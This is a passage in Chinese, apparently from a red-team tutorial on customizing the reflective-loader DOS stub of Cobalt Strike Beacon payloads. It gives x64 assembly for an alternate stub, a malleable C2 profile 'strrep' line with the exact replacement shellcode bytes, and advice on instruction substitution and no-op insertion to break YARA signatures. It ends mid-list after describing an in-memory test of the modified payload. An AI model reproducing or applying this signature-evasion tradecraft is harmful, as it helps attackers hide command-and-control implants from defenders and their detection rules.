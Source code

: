 下面的例子是上述stub的另一个版本

    
    
    pop r10 ; MZ Header  
    lea rbx, [rip -0x08] ; obtain the shellcode base address  
    push r10 ; undo action of MZ header  
    sub rsp, 0x28 ; create shadow space and align stack  
    mov rdi, rbx ; save shellcode base address  
    add rbx, 0xb752 ; add half file offset of ReflectiveLoader to shellcode base  
    add rbx, 0xb752 ; add half file offset of ReflectiveLoader to shellcode base   
    call rbx ; call ReflectiveLoader (returns DllMain address)  
    mov rdx, 0x04 ; move 4 into rdx (second argument of call)  
    mov rcx, rdi ; move shellcode base address to rcx (first argument of call)  
    call rax ; call DllMain

注意，默认的ReflectiveLoader实际上会调用DllMain本身，并将DllMain的地址返回给shellcode
stub。然后我们第二次调用DllMain来启动Beacon。这就是为什么你可能会在开源的UDRL中看到对DllMain的两次调用。

这个stub执行类似的步骤，但有一些指令替换，而且顺序略有不同（除了设置EXITFUNC值，实际上技术上不需要）。此外，还有许多其他使用指令替换的方法来达到类似的效果。例如，每条
"mov regA, regB "可以被替换为 "push regB; pop regA "或 "mov tmp, regB; mov regA, tmp
"等。另外，一个更自动化的方法是使用类似Nettitude的Shellcode
Mutator的东西。这实际上并不改变指令本身（它随机地在现有的shellcode中加入no-ops），但它也可以用来破坏YARA的签名。

在下面的截图中，我们使用defuse.ca来组装上面的备用shellcode存根：

![]()

请注意，由于复杂的指令编码原因，`pop r10` 实际上会组装成 41
5A，因此您需要手动将字符串字面值开头的`“\x41\x5A”`改回为`“\x4D\x5A”`（4D 5A 仍会被反汇编为 `pop
r10`）。这是因为默认的反射加载器向后搜索 MZ 头部（即 4D 5A），如果找不到它，加载器将会失败。

可以修改默认的DOS存根，并在可塑性C2配置文件中使用我们的更新版本与strrep，如下图所示：

    
    
    stage {    
           transform-x64 {  
                  strrep "\x4D\x5A\x41\x52\x55\x48\x89\xE5\x48\x81\xEC\x20\x00\x00\x00\x48\x8D\x1D\xEA\xFF\xFF\xFF\x48\x89\xDF\x48\x81\xC3\xA4\x6E\x01\x00\xFF\xD3\x41\xB8\xF0\xB5\xA2\x56\x68\x04\x00\x00\x00\x5A\x48\x89\xF9\xFF\xD0" "\x4D\x5A\x48\x8D\x1D\xF8\xFF\xFF\xFF\x41\x52\x48\x83\xEC\x28\x48\x89\xDF\x48\x81\xC3\x52\xB7\x00\x00\x48\x81\xC3\x52\xB7\x00\x00\xFF\xD3\x48\xC7\xC2\x04\x00\x00\x00\x48\x89\xF9\xFF\xD0";  
                        }  
    }

在重启Teamserver并在配置文件中加入上述strrep后，我们可以看到新的DOS存根已经应用于我们导出的Beacon有效载荷：

![]()

在下面的截图中，我们使用udrl.py（来自udrl-
vs工具包）将带有修改过的DOS头的原始Beacon有效载荷（即beacon.bin）注入内存，以测试它是否如预期那样工作：

![]()

请注意，为了与默认的反射加载器兼容，反射加载器存根需要执行以下四个操作：
